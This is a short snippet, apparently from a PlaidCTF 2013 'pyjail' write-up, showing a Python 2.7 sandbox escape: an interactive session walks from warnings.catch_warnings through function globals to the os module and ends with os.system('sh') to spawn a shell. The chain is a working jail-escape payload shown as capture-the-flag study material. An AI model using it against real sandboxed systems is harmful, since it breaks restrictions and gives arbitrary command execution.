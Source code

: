 ```
     # warnings.catch_warnings.__enter__.__func__.__globals__['linecache'].checkcache.__globals__['os']
     w[53]
     Return Value: <class 'warnings.catch_warnings'>
     __builtins__['y']=w[53].__enter__.__func__
     Return Value: <function __enter__ at 0x7fdf74cfe1b8>
     y
     Return Value: <function __enter__ at 0x7fdf74cfe1b8>
     __builtins__['a']=y.__globals__['linecache']
     Return Value: <module 'linecache' from '/usr/lib/python2.7/linecache.pyc'>
     __builtins__['os']=a.checkcache.__globals__['os']
     Return Value: <module 'os' from '/usr/lib/python2.7/os.pyc'>
     os.system('sh')
```
[Thank you sir, may I have another?](http://eindbazen.net/2013/04/pctf-2013-pyjail-misc-400/)
